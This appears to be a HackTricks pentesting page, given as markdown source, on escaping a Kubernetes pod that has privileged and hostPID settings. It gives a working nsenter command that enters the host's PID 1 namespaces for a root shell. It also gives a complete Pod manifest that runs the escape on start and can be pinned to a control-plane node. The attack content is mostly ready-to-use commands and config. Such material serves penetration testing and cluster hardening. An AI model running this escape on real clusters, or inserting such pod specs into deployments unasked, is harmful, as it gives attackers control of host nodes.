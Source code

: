 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

With these privileges you will have **access to the hosts processes** and **enough privileges to enter inside the namespace of one of the host processes**.\
Note that you can potentially not need privileged but just some capabilities and other potential defenses bypasses (like apparmor and/or seccomp).

Just executing something like the following will allow you to escape from the pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Configuration example:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
    - name: priv-and-hostpid-pod
      image: ubuntu
      tty: true
      securityContext:
        privileged: true
      command:
        [
          "nsenter",
          "--target",
          "1",
          "--mount",
          "--uts",
          "--ipc",
          "--net",
          "--pid",
          "--",
          "bash",
        ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```

{{#include ../../../banners/hacktricks-training.md}}





